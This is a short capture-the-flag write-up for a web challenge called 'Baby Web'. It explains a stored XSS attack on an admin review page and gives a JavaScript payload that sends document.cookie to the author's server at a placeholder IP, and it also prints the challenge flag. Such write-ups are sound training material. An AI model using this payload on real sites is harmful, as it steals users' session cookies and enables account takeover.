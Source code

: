 # CTF Challenge Writeup: Baby Web

## Challenge Information

- **Name:** Baby Web
- **Category:** Web
- **Points:** 50
- **Description:** This website seems to have an issue. Let's report it to the admins.
- **Files:** [dist.zip](files/babyweb-dist.zip)

![BabyWeb-1.png](img/BabyWeb-1.png)

## Challenge Analysis

The description hints towards a CSRF or XSS attack vector.

## Solution

### Step 1: Enumeration

The web page is fairly simple, no fuzzing/crawling/spidering is needed:

![BabyWeb-2.png](img/BabyWeb-2.png)

It states that admins with **special cookies** will look at each submission, if these cookies are misconfigured we might be able to exfiltrate them with a XSS attack.

### Step 2: Design and Inject JavaScript

I've used the easiest XSS trick in the book, URL encode all the cookies and send them to my own server via a GET request in an image:
```javascript
<script>
        var i = new Image();
        i.src = "http://XXX.XXX.XXX.XXX/?exfil=" + escape(document.cookie);
</script>
```


### Step 3: Get the cookie from my `access.log`

![BabyWeb-3.png](img/BabyWeb-3.png)

The cookie is the flag, no further steps required!

## Flag

`grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c}`

## Conclusion

Don't forget the KISS principle!
Keep It Simple Stupid!

## Writeup Author

- Twitter: [@Cyber8RU7U5](https://twitter.com/Cyber8RU7U5)
- GitHub: [Cyber8RU7U5](https://github.com/Cyber8RU7U5)

